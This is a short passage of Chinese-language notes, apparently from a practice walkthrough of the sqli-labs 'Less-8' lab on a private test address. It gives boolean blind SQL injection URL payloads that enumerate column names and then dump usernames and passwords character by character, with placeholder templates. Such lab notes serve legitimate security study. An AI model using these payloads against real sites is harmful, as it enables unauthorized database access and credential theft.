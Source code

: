 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605190431995.png" alt="image-20230605190431995" style="zoom:50%;" />

#### 爆字段

爆破当前数据库的第一个数据表的第一个字段名

```
http://192.168.231.129:9001/Less-8/?id=1' and ascii(substring((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),1,1)) = 117%23

http://192.168.231.129:9001/Less-8/?id=1' and ascii(substring((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 第几个字段,1),第几个字母,1)) = 117%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605191103672.png" alt="image-20230605191103672" style="zoom:50%;" />

#### 拖库

```
http://192.168.231.129:9001/Less-8/?id=1' and ascii(substring((select concat(username,password) from users limit 1,1),1,1)) = 65%23

http://192.168.231.129:9001/Less-8/?id=1' and ascii(substring((select concat(username,password) from users limit 第几个用户名和密码,1),第几个字母,1)) = 65%23
```
